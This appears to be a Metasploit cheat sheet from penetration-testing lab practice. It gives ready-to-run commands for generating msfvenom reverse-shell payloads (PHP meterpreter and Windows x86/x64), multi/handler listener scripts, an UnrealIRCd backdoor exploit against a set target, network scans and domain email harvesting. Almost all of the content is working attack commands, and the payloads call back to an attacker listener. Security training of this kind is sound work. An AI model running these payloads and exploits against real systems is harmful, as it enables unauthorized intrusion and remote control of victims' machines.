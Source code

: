 #### 1. About

- URL: `github.com/rapid7/metasploit-framework`
- metasploit framework


#### 2. Setup and run
```
# docker pull metasploitframework/metasploit-framework
# docker tag metasploitframework/metasploit-framework:latest msf
# ip=`ip a | grep tun0 | grep inet | awk '{print $2}' | sed 's/\/.*//g'`
# docker run --name msf -e ip=$ip -v /tmp:/tmp -p 4000-4010:4000-4010 -d --rm -it msf
# [[ -z `grep masfvenom ~/.profile` ]] && echo 'alias msfvenom="docker exec -it msf /usr/src/metasploit-framework/msfvenom"' >> ~/.profile
# [[ -z `grep msfconsole ~/.profile` ]] && echo 'alias msfconsole="docker exec -it msf /usr/src/metasploit-framework/msfconsole"' >> ~/.profile
```


#### 3. Example 1
```
# msfvenom -p php/meterpreter/reverse_tcp LHOST=$ip LPORT=4001 R -o /tmp/msf/payload.php
# cat << EOF > /tmp/shell.rc
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 4001
exploit
EOF
# msfconsole -qr /tmp/shell.rc
```


#### 4. Example 2
```
# cat << EOF > /tmp/exploit.rc
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 10.10.10.11
set RPORT 6697
set PAYLOAD cmd/unix/reverse
set LHOST 10.10.10.10
set LPORT 4001
exploit
EOF
# msfconsole -qr /tmp/exploit.rc
```


#### 5. Example 3 (custom exploit)
```
# docker run --name msf -v /tmp:/tmp -p 4000-4010:4000-4010 -d --rm -it msf
# msfvenom -p windows/shell_reverse_tcp LHOST=172.16.201.160 LPORT=4001 EXITFUNC=thread -b '\x00\x0a\x0d' -f python -v buffer
# cat << EOF > /tmp/handler.rc
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set EXITFUNC thread
set LHOST 10.10.10.11
set LPORT 4001
exploit
EOF
# msfconsole -qr /tmp/handler.rc
```


#### 6. Multi-handler and listeners for both x86 / x64

a) Payloads
```
# msfvenom -p windows/x64/shell/reverse_tcp -f raw -o /tmp/x64_rev_shell.exe EXITFUNC=thread LHOST=10.11.0.232 LPORT=6666
# msfvenom -p windows/shell/reverse_tcp -f raw -o /tmp/x86_rev_shell.exe EXITFUNC=thread LHOST=10.11.0.232 LPORT=5555
```

b) Listeners:
```
# cat << EOF > handler.cfg
use exploit/multi/handler
set LHOST 10.10.10.11
set ExitOnSession false
set EXITFUNC thread
set PAYLOAD windows/x64/shell/reverse_tcp
set LPORT 6666
exploit -j
set PAYLOAD windows/shell/reverse_tcp
set LPORT 5555
exploit -j
EOF
# /etc/init.d/postgresql start
# msfconsole -qr handler.cfg
```


#### 7. Port scanning

a) SYN scan
```
# q="use auxiliary/scanner/portscan/syn; \
   set INTERFACE tap0; \
   set PORTS 80; \
   set RHOSTS 10.11.1.*; \
   set THREADS 10; \
   run; exit y \
"
# msfconsole -qx "$q"
```

b) TCP scan
```
# q="use auxiliary/scanner/portscan/tcp; \
   set RHOSTS 10.11.1.*; \
   set PORTS 80; \
   set THREADS 5; \
   run; exit y \
"
# msfconsole -qx "$q"
```

c) SMB scan
```
# q="use auxiliary/scanner/smb/smb_version; \
   set RHOSTS 10.11.1.*; \
   set THREADS 11; \
   run; exit y \
"
# msfconsole -qx "$q"
```

d) Find idle boxes for zobie scan
```
# q="use auxiliary/scanner/ip/ipidseq; \
   set RHOSTS 10.11.1.*; \
   set THREADS 11; \
   run; exit y \
"
# msfconsole -qx "$q"
```


#### 8. Enumeration

a) Find emails on domain
```
# domain='example.com'
# q="use auxiliary/gather/search_email_collector; set DOMAIN $domain; run; exit y"
# msfconsole -qx "$q" | grep -oE "[-0-9a-zA-Z_]{1,}@$domain"
email@example.com
user@example.com
```


#### 9. MSF Database Cache
```
# systemctl start postgresql
# msfdb init
msf > db_status
msf > db_rebuild_cache
```
